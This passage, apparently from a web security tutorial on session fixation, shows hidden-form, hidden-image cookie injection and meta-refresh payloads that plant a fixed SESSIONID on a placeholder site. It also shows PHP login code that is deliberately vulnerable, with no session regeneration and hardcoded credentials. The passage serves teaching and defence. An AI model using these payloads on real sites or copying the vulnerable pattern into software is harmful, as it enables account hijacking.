 ### Hidden Form Field Method

```html
<form action="https://vulnerable-site.com/login.php" method="POST">
  <input type="hidden" name="SESSIONID" value="1234567890">
  Username: <input type="text" name="username"><br>
  Password: <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

### Cross-subdomain Cookie Injection

If the application accepts session IDs from subdomains:

```html
<img src="https://sub.vulnerable-site.com/setcookie.php?SESSIONID=1234567890" style="display:none">
```

### Meta Tag Refresh

```html
<meta http-equiv="refresh" content="0;url=https://vulnerable-site.com/login.php?SESSIONID=1234567890">
```

## Technical Example

### PHP Example - Vulnerable Code

```php
<?php
// Vulnerable code - doesn't regenerate session ID on login
session_start();

if(isset($_POST['username']) && isset($_POST['password'])) {
    // Authenticate user
    if($_POST['username'] == 'admin' && $_POST['password'] == 'password123') {
        // Set session variable to indicate authenticated user
        $_SESSION['authenticated'] = true;
        $_SESSION['username'] = $_POST['username'];
        header('Location: dashboard.php');
        exit;
    }
}
?>

<form method="post" action="login.php">
    Username: <input type="text" name="username"><br>
    Password: <input type="password" name="password"><br>
    <input type="submit" value="Login">
</form>
```
